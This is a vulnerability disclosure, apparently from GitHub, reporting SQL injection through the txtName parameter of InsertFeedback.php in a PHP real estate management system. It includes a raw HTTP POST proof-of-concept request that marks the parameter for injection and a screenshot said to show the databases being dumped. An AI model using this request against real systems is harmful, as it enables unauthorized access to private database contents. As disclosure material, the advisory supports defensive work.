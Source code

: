 # Real Estate Property Management System has sql injection vulnerability  via txtName parameter.

## supplier 
https://code-projects.org/real-estate-property-management-system-php-source-code/
## Vulnerability parameter
txtName parameter.

## describe

An unrestricted SQL injection attack exists in an Real Estate Property Management System. The parameters that can be controlled are as follows: txtName . This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analy,sis**    

When the value of   txtName parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/5acfa37a-2fa4-4fa9-8a9c-77bd171ab4cf)

## POC

```
POST /InsertFeedback.php HTTP/1.1
Host: property
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://property
Connection: close
Referer: http://property/ajax_city.php?
Upgrade-Insecure-Requests: 1
Priority: u=0, i

txtName=1*
```

**Result**

get databases 

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
